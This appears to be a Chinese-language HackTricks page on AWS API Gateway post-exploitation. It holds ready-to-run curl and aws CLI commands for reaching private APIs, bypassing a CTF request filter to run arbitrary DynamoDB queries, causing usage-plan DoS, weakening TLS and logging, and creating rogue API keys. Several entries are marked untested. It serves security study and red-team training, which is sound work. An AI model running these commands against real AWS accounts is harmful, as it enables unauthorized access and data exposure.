 # AWS - API Gateway Post Exploitation

{% hint style="success" %}
学习和实践 AWS 黑客技术：<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks 培训 AWS 红队专家 (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
学习和实践 GCP 黑客技术：<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks 培训 GCP 红队专家 (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>支持 HackTricks</summary>

* 查看 [**订阅计划**](https://github.com/sponsors/carlospolop)!
* **加入** 💬 [**Discord 群组**](https://discord.gg/hRep4RUj7f) 或 [**telegram 群组**](https://t.me/peass) 或 **在** **Twitter** 🐦 **上关注我们** [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **通过向** [**HackTricks**](https://github.com/carlospolop/hacktricks) 和 [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github 仓库提交 PR 分享黑客技巧。

</details>
{% endhint %}

## API Gateway

有关更多信息，请查看：

{% content-ref url="../aws-services/aws-api-gateway-enum.md" %}
[aws-api-gateway-enum.md](../aws-services/aws-api-gateway-enum.md)
{% endcontent-ref %}

### 访问未公开的 API

您可以在 [https://us-east-1.console.aws.amazon.com/vpc/home#CreateVpcEndpoint](https://us-east-1.console.aws.amazon.com/vpc/home?region=us-east-1#CreateVpcEndpoint:) 创建一个服务为 `com.amazonaws.us-east-1.execute-api` 的端点，在您有访问权限的网络中公开该端点（可能通过 EC2 机器），并分配一个允许所有连接的安全组。\
然后，您将能够从 EC2 机器访问该端点，从而调用之前未公开的网关 API。

### 绕过请求体透传

此技术在 [**此 CTF 文章**](https://blog-tyage-net.translate.goog/post/2023/2023-09-03-midnightsun/?\_x\_tr\_sl=en&\_x\_tr\_tl=es&\_x\_tr\_hl=en&\_x\_tr\_pto=wapp) 中发现。

正如 [**AWS 文档**](https://docs.aws.amazon.com/AWSCloudFormation/latest/UserGuide/aws-properties-apigateway-method-integration.html) 中 `PassthroughBehavior` 部分所示，默认情况下，值 **`WHEN_NO_MATCH`** 在检查请求的 **Content-Type** 头时，将请求传递给后端而不进行任何转换。

因此，在 CTF 中，API Gateway 有一个集成模板，该模板 **阻止了标志在发送请求时被外泄**，请求的 `Content-Type` 为 `application/json`： 

{% code overflow="wrap" %}
```yaml
RequestTemplates:
application/json: '{"TableName":"Movies","IndexName":"MovieName-Index","KeyConditionExpression":"moviename=:moviename","FilterExpression": "not contains(#description, :flagstring)","ExpressionAttributeNames": {"#description": "description"},"ExpressionAttributeValues":{":moviename":{"S":"$util.escapeJavaScript($input.params(''moviename''))"},":flagstring":{"S":"midnight"}}}'
```
{% endcode %}

然而，发送一个带有 **`Content-type: text/json`** 的请求将会阻止该过滤器。

最后，由于 API Gateway 仅允许 `Get` 和 `Options`，可以通过发送一个包含查询的 POST 请求，并使用头部 `X-HTTP-Method-Override: GET` 来发送任意的 dynamoDB 查询，而没有任何限制：

{% code overflow="wrap" %}
```bash
curl https://vu5bqggmfc.execute-api.eu-north-1.amazonaws.com/prod/movies/hackers -H 'X-HTTP-Method-Override: GET' -H 'Content-Type: text/json'  --data '{"TableName":"Movies","IndexName":"MovieName-Index","KeyConditionExpression":"moviename = :moviename","ExpressionAttributeValues":{":moviename":{"S":"hackers"}}}'
```
{% endcode %}

### 使用计划 DoS

在 **Enumeration** 部分，您可以看到如何 **获取密钥的使用计划**。如果您拥有密钥并且它的 **每月使用次数限制为 X 次**，您可以 **直接使用它并造成 DoS**。

**API Key** 只需包含在一个名为 **`x-api-key`** 的 **HTTP 头** 中。

### `apigateway:UpdateGatewayResponse`, `apigateway:CreateDeployment`

拥有权限 `apigateway:UpdateGatewayResponse` 和 `apigateway:CreateDeployment` 的攻击者可以 **修改现有的 Gateway Response，以包含自定义头或响应模板，这些模板泄露敏感信息或执行恶意脚本**。

{% code overflow="wrap" %}
```bash
API_ID="your-api-id"
RESPONSE_TYPE="DEFAULT_4XX"

# Update the Gateway Response
aws apigateway update-gateway-response --rest-api-id $API_ID --response-type $RESPONSE_TYPE --patch-operations op=replace,path=/responseTemplates/application~1json,value="{\"message\":\"$context.error.message\", \"malicious_header\":\"malicious_value\"}"

# Create a deployment for the updated API Gateway REST API
aws apigateway create-deployment --rest-api-id $API_ID --stage-name Prod
```
{% endcode %}

**潜在影响**：敏感信息泄露、执行恶意脚本或未经授权访问API资源。

{% hint style="info" %}
需要测试
{% endhint %}

### `apigateway:UpdateStage`, `apigateway:CreateDeployment`

拥有权限 `apigateway:UpdateStage` 和 `apigateway:CreateDeployment` 的攻击者可以**修改现有的API Gateway阶段，将流量重定向到不同的阶段或更改缓存设置，以获得对缓存数据的未经授权访问**。

{% code overflow="wrap" %}
```bash
API_ID="your-api-id"
STAGE_NAME="Prod"

# Update the API Gateway stage
aws apigateway update-stage --rest-api-id $API_ID --stage-name $STAGE_NAME --patch-operations op=replace,path=/cacheClusterEnabled,value=true,op=replace,path=/cacheClusterSize,value="0.5"

# Create a deployment for the updated API Gateway REST API
aws apigateway create-deployment --rest-api-id $API_ID --stage-name Prod
```
{% endcode %}

**潜在影响**：未经授权访问缓存数据，干扰或拦截API流量。

{% hint style="info" %}
需要测试
{% endhint %}

### `apigateway:PutMethodResponse`, `apigateway:CreateDeployment`

具有权限 `apigateway:PutMethodResponse` 和 `apigateway:CreateDeployment` 的攻击者可以**修改现有API Gateway REST API方法的响应，以包含自定义头或响应模板，从而泄露敏感信息或执行恶意脚本**。
```bash
API_ID="your-api-id"
RESOURCE_ID="your-resource-id"
HTTP_METHOD="GET"
STATUS_CODE="200"

# Update the method response
aws apigateway put-method-response --rest-api-id $API_ID --resource-id $RESOURCE_ID --http-method $HTTP_METHOD --status-code $STATUS_CODE --response-parameters "method.response.header.malicious_header=true"

# Create a deployment for the updated API Gateway REST API
aws apigateway create-deployment --rest-api-id $API_ID --stage-name Prod
```
**潜在影响**：敏感信息泄露、执行恶意脚本或未经授权访问API资源。

{% hint style="info" %}
需要测试
{% endhint %}

### `apigateway:UpdateRestApi`, `apigateway:CreateDeployment`

拥有权限 `apigateway:UpdateRestApi` 和 `apigateway:CreateDeployment` 的攻击者可以**修改API Gateway REST API设置以禁用日志记录或更改最低TLS版本，从而可能削弱API的安全性**。
```bash
API_ID="your-api-id"

# Update the REST API settings
aws apigateway update-rest-api --rest-api-id $API_ID --patch-operations op=replace,path=/minimumTlsVersion,value='TLS_1.0',op=replace,path=/apiKeySource,value='AUTHORIZER'

# Create a deployment for the updated API Gateway REST API
aws apigateway create-deployment --rest-api-id $API_ID --stage-name Prod
```
**潜在影响**：削弱API的安全性，可能允许未经授权的访问或暴露敏感信息。

{% hint style="info" %}
需要测试
{% endhint %}

### `apigateway:CreateApiKey`, `apigateway:UpdateApiKey`, `apigateway:CreateUsagePlan`, `apigateway:CreateUsagePlanKey`

拥有权限 `apigateway:CreateApiKey`、`apigateway:UpdateApiKey`、`apigateway:CreateUsagePlan` 和 `apigateway:CreateUsagePlanKey` 的攻击者可以**创建新的API密钥，将其与使用计划关联，然后使用这些密钥进行未经授权的API访问**。
```bash
# Create a new API key
API_KEY=$(aws apigateway create-api-key --enabled --output text --query 'id')

# Create a new usage plan
USAGE_PLAN=$(aws apigateway create-usage-plan --name "MaliciousUsagePlan" --output text --query 'id')

# Associate the API key with the usage plan
aws apigateway create-usage-plan-key --usage-plan-id $USAGE_PLAN --key-id $API_KEY --key-type API_KEY
```
**潜在影响**：未经授权访问API资源，绕过安全控制。

{% hint style="info" %}
需要测试
{% endhint %}

{% hint style="success" %}
学习和实践AWS黑客技术：<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks培训AWS红队专家（ARTE）**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
学习和实践GCP黑客技术：<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks培训GCP红队专家（GRTE）**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>支持HackTricks</summary>

* 查看[**订阅计划**](https://github.com/sponsors/carlospolop)!
* **加入** 💬 [**Discord群组**](https://discord.gg/hRep4RUj7f)或[**Telegram群组**](https://t.me/peass)或**关注**我们的**Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **通过向** [**HackTricks**](https://github.com/carlospolop/hacktricks)和[**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) GitHub库提交PR分享黑客技巧。

</details>
{% endhint %}
